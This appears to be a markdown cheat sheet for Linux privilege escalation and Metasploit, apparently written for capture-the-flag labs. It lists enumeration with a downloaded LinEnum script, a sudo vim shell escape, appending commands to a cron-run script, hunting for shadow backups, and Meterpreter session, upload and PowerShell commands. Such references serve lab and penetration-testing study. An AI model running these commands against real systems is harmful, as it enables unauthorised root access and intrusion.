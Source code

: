 # Privilege Escalation

## Linux Privilege Escalation

### Enumeration

```bash
# Download LinEnum
wget https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```

### Check sudo permissions

```bash
sudo -l
# If you can run vim/vi with sudo, escape to shell with:
:!sh
```

### Cronjobs

```bash
# Check user cronjobs
crontab -l

# Check system cronjobs 
sudo cat /etc/crontab
sudo ls /etc/cron.*

# Modify a script run by cron
echo "chmod 777 /home/ubuntu/flag2.txt" >> clean_ip.sh
```

### Find files

```bash
# Find a specific file
find / 2>>/dev/null | grep "shadow.bak"
find / -name "*flag2*" 2>/dev/null

# Find strings in files
grep "your_word" *.txt
```

## Metasploit

### Basic Usage

```bash
# Start Metasploit
msfconsole

# Search for exploits
search xxx

# Use an exploit
use xx

# View and set options
options
set xxx <value>  # (target ID, LHOST, LPORT)
run
```

### Sessions Management

```bash
# List sessions
sessions

# Interact with a session
sessions -i <session_id>

# Upgrade to Meterpreter
sessions -u -1

# Background current session
background
```

### Meterpreter Commands

```bash
# Search for files
search -f xxx.txt

# Upload files
upload /root/file

# Load PowerShell
load powershell
powershell_shell
```
